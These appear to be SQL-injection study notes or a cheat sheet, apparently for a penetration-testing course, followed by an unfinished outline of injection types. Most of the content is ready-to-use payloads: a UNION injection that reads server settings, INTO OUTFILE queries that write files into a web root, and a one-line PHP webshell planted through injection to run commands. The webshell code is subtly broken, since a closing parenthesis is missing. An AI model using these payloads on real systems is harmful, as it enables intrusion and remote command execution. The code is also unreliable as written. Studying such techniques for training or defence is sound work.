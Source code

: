 ```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- 
```
**Select into outfile**
```sql
# Example SQL Query
SELECT * from users INTO OUTFILE '/tmp/credentials';
# Example of directly SELECTing strings into files, allowing us to write arbitrary files
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```
```sql
# Example SQL query to write a test file into the web root
select 'file written successfully!' into outfile '/var/www/html/proof.txt'
# Example injection based on above
cn' union select 1, 'file written successfully!', 3, 4 into outfile '/var/www/html/proof.txt'-- 
# Note: you will not see anything written back, as long as it doesn't error, it probably worked
# Note: with the above injection, your file will look like "1 file written successfuly 3 4"
# Note: This is because the entire select is written to the file, to clean it up, use "" in place of the numbers
```
Note: Advanced file exports utilize 'FROM_BASE64("base64_data")' function in order to be able to write long/advanced files
including binary (executable) data.

**Example Webshell**  
Example PHP webshell
```php
<?php system($_REQUEST[0]; ?>
```
To inject this simple one-line webshell, we can use the same example above, just changing our text and filename.
```sql
cn' union select "", '<?php system($_REQUEST[0]; ?>', "", "" into outfile '/var/www/html/webshell.php'-- 
```
## In-Band
### Summary
Output of both the intended and new query are output directly to the screen and can be directly read.
### Union Based
### Error Based
## Blind
### Summary
Output may not printed, so we'll have to use SQL logic to get the output character by character
### Boolean Based
### Time Based
## Out-of-band
### Summary
No direct access to the output, so we have to direct the output to a remote location, like a DNS record, and retrieve it from there.
